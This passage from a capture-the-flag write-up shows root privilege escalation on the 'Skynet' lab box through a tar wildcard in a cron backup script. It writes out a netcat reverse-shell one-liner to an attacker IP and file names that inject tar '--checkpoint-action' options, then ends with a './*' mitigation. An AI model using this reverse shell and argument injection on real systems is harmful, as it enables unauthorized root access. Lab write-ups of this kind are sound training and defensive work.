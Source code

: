 ```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
This script opens bash then cd's into the `/var/www folder` then zips everything into a backup.tgz.

Lucky for me this script is zipping a folder I have full rights for. After playing around for a while I stumbled across [this](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/) article which shows an exploit with the "*" wildcard for tar.

This looks promising! I first made these files in the `/var/www/html` folder
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.4.164 1234 >/tmp/f' > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```
Due to tar having the wildcard `*` in place it will zip the files and read the filenames and see `--checkpoint-action=exec=sh` and run this as an argument in turn running the file you point it to. We can use this to run cmd's as `root`.

```bash
www-data@skynet:/var/www/html$ ls -la
ls -la
total 76
-rw-rw-rw- 1 www-data www-data     0 Dec  1 13:40 --checkpoint-action=exec=sh shell.sh
-rw-rw-rw- 1 www-data www-data     0 Dec  1 13:38 --checkpoint=1
drwxr-xr-x 8 www-data www-data  4096 Dec  1 13:57 .
drwxr-xr-x 3 root     root      4096 Sep 17  2019 ..
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 45kra24zxs28v3yd
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 admin
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 ai
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 config
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 css
-rw-r--r-- 1 www-data www-data 25015 Sep 17  2019 image.png
-rw-r--r-- 1 www-data www-data   523 Sep 17  2019 index.html
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 js
-rw-rw-rw- 1 www-data www-data    79 Dec  1 13:59 shell.sh
-rw-r--r-- 1 www-data www-data  2667 Sep 17  2019 style.css
```

Now catch the shell with netcat and wait for the cronjob to proc

<p align="center">
  <img class="image" width="auto" height="auto" src="https://imgur.com/QpbosL9.png">
</p>

**ROOTED!**

### Protect from wildcard exploits

To protect from wildcards you can use the follwing to force the wildcard to see the directories instead of thinking it is a command.

```bash
####Exploitable####
tar cf /home/milesdyson/backups/backup.tgz *

####Protection from the attack####
tar cf /home/milesdyson/backups/backup.tgz ./*
```
